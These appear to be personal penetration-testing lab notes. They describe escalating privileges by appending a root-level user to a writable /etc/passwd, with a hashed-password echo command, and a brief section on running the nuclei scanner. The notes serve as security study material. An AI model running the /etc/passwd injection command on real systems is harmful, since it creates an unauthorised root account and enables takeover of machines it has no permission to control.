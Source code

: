 
It turns out that `/etc/passwd` is writeable by `www-data` 
This turns out to be priv esc vulnerability because we can actually write a new user to this file

To do this, we need to generate an MD5 hash of a password using `openssl`

Create the proper syntax for the `/etc/passwd` to read, and the system will take in as a valid account

![[Pasted image 20240716101243.png]]

Check Usage:
![[Pasted image 20240716101328.png]]
![[Pasted image 20240716101354.png]]

Generate MD5 Hash
![[Pasted image 20240716103224.png]]

Insert a new user into the `/etc/passwd` file
```
echo 'hacker:$1$ik8jPrry$A.Z1eT8Vljb.JN1/pDKUX/:0:0:hacked:/root:/bin/bash' >> /etc/passwd
<ik8jPrry$A.Z1eT8Vljb.JN1/pDKUX/:0:0:hacked:/root:/bin/bash' >> /etc/passwd
```

`/etc/passwd` File breakdown:
- Username
- Hash
- User ID
- Group ID
- Notes
- Home Folder
- Login Shell


This will require a more secure shell - Use python to upgrade and `su` into the new user!
![[Pasted image 20240716103357.png]]

***
***


**NUCLIE VULN SCANNER**

https://github.com/projectdiscovery/nuclei

![[Pasted image 20240715162410.png]]

```
nuclei -h
```
![[Pasted image 20240715163824.png]]

```
nculei -l bank.txt
```
![[Pasted image 20240715164147.png]]

**TTP**
`T1595.002: Recon: Active Scanning`



